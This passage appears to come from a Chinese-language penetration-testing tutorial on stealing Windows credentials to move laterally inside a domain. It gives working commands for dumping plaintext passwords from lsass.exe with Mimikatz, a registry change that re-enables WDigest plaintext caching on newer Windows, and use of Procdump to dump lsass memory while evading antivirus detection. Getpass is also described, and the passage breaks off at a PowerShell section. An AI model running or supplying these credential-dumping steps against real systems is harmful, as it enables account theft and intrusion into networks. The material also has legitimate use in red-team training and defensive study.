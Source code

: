 窃取凭据来帮助在域内横向移动，一旦获取的密码在内网中是通用的，将会方便横向移动获取目标权限。

**3.1.1Mimikatz**

Mimikatz 一款 windows 平台下的神器，它具备很多功能，其中最亮眼的功能是直接从 lsass.exe 进程里获取 windows 处于 active 状态账号的明文密码。

读取明文密码原理：在 Windows 中，当用户登录时，lsass.exe 使用一个可逆的算法加密明文，并会将密文保存在内存中，Mimikatz 就是通过抓取内存去还原明文。

> 项目地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

用法：

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit"
```

![](https://image.3001.net/images/20200304/15833017249951.png!small)

当目标为 win10 或 2012R2 以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。

cmd 修改注册表命令：

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

重启或用户重新登录后可以成功抓取。

**3.1.2Procdump**

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。通常使用 procdump 转储内存文件到本地再使用 mimikatz 抓取文件中的 hash 来躲避杀软检测。

下载地址：

> [https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)

1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

![](https://image.3001.net/images/20200304/15833017378098.png!small)

2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
```

![](https://image.3001.net/images/20200304/15833017522904.png!small)

**3.1.3Getpass**

Getapss 是由闪电小子根据 mimikatz 编译的一个工具，可以直接获取明文密码，直接运行 Getpass.exe 即可：

![](https://image.3001.net/images/20200304/15833017791624.png!small)

**3.1.4Powershell 脚本抓取**
